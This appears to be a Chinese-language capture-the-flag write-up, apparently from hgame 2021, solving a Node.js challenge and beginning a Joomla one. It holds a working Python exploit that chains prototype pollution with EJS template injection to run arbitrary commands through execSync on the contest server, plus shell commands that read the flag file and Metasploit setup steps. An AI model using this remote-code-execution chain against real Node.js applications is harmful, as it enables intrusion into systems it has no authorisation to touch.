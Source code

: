 

然后贴程序：

```python
import httpx
from bs4 import BeautifulSoup
session = httpx.Client(proxies={'all://':None})
while 1:
    payload = {'wishes': "<%- global.process.mainModule.require('child_process').execSync('"+input('payload:')+"') %>"}
    
    payload1 = {"name": "test3", "discription": "test2", "__proto__": {"crying": True}}
    r = session.post('http://macguffin.0727.site:5000/',json = payload1,allow_redirects=False)
    print(r.content)
    session.post('http://macguffin.0727.site:5000/wish', json = payload)
    r = session.get('http://macguffin.0727.site:5000/show')
    soup = BeautifulSoup(r,'lxml')
    print(soup.find('div', class_='wishes'))
```

然后开始翻目录

![image-20210222222822841](https://i.loli.net/2021/02/22/DknNjEBm64lhwJb.png)

![image-20210222222848828](https://i.loli.net/2021/02/22/I1lZXMPGLqzC6eQ.png)



hgame{nOdeJs_Prot0type_ls_fUnny\&amp;Ejs_Templ@te_Injection}

中间有特殊符号

索性就这样拿

```
cat ../../../flag|base64
```



hgame{nOdeJs_Prot0type_ls_fUnny&Ejs_Templ@te_Injection}



当然 你也能这样拿：

```
cat ../../../flag|md5sum
```

（狗头保命）

## joomlaJoomla!!!!!

因为各种奇奇怪怪的原因，跑去用 kali 了。

按照下面的代码安装 msfconsole

```
sudo systemctl enable --now postgresql
sudo gem install bundler -v 2.2.4
sudo msfdb reinit
sudo msfconsole
```
